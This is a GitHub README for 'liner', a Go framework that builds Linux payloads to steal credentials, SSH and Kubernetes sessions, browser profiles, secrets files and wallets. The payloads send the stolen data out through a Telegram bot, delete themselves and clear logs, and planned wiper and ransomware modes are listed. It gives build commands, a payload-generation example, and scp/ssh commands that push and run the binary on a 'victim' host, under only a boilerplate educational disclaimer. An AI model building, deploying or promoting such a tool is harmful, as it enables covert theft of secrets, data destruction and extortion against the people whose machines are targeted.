 <img width="1000" height="850" alt="ChatGPT Image Jul 14, 2025, 04_07_32 PM" src="https://github.com/user-attachments/assets/c870a924-deca-4834-9c11-b0b4df874eb2" />

# liner

`liner` is a lightweight and modular **post-exploitation framework** written in **pure Golang**, designed to generate **custom payloads** for Linux-based systems. These payloads can perform stealthy **data exfiltration**, **destructive actions**, or **ransom-like encryption** depending on user-defined modes.

---

## 🚀 Features

- 🔧 Generate standalone **Go binaries** for various post-exploitation tasks
- 🕵️ Spyware Mode: dump credentials, sessions, private files
- 💣 Vayper Mode: destroy selected categories of sensitive data *(WIP)*
- 🔐 Ransom Mode: encrypt sensitive files *(WIP)*
- 📤 Exfiltrate data via **Telegram bot**
- 🧹 Self-deletion & log cleanup
- 🧪 No dependencies – works out-of-the-box on any Linux system
- 🧬 Output as Go code or compiled ELF binary

---

## ⚙️ Installation

```bash
git clone https://github.com/yourname/liner.git
cd liner
go build -o liner cmd/liner.go
```

You now have a CLI tool: `./liner`

---

## 🧾 Usage

```bash

liner [FLAGS] -o [output_name]

```

### 🔹 Global Flags

| Flag         | Description                                                   |
|--------------|---------------------------------------------------------------|
| `--help`     | Show help and usage information                               |
| `--silent`   | Run without displaying the ASCII logo                         |
| `--mode`     | What the final binary should do: `Spyware`, `Vayper`, `Ransom`|
| `--token`    | Telegram bot token                                            |
| `--id`       | Telegram chat ID                                              |
| `--dump`     | What to dump: `Credentials`, `Password`, `Session`, `privateDATA`, `all` *(Spyware only)* |
| `--destroy`  | What to destroy *(Vayper only)*                               |
| `--encrypt`  | What to encrypt *(Ransom only)*                               |
| `-o`         | Output filename (with or without `.go`)                       |

---

## 🧪 Example

```bash
liner \
--mode Spyware \
--dump all \
--token 123456:ABCDEF-TelegramBotToken \
--id 987654321 \
--silent \
-o setting
```

This command creates a binary file named `setting` which:

- Runs in silent mode
- Extracts all targeted information
- Sends everything to your Telegram
- Cleans itself and logs if implemented

To run it on target:

```bash
scp ./setting user@victim:/tmp
ssh user@victim 'chmod +x /tmp/setting && /tmp/setting'
```

---

## 🗂️ Modes

### 🔹 Spyware Mode (`--mode Spyware`)

- Targeted for **stealth data extraction**
- Supported `--dump` values:
  - `Credentials`: Git credentials, keychains, browsers
  - `Password`: Bash/zsh history, `pass`, keyrings
  - `Session`: `.ssh`, `.kube`, browser profiles
  - `privateDATA`: `.env`, `.sqlite`, `.wallet`, `.pem`, `.p12`, etc.
  - `all`: all of the above

### 🔹 Vayper Mode (`--mode Vayper`) *(WIP)*

- Designed to **delete** specific data classes
- Supported `--destroy` values: `Credentials`, `Password`, `Session`, `privateDATA`, `all`

### 🔹 Ransom Mode (`--mode Ransom`) *(WIP)*

- Designed to **encrypt** selected data on disk
- Supported `--encrypt` values: same as `--destroy`

---

## 📤 Exfiltration Details

- Data collected is zipped or serialized
- Sent via `https://api.telegram.org/bot<token>/sendDocument`
- Uses HTTP POST requests with silent delivery
- No external libraries – raw Go net/http

---

## 🛡️ Legal Disclaimer

This project is for **educational and authorized security testing** only.  
Using this tool against systems without explicit permission is **illegal**.

---

## 👨‍💻 Author

Developed with ❤️ by [MNM]  
If you find this useful, give it a ⭐ on GitHub!

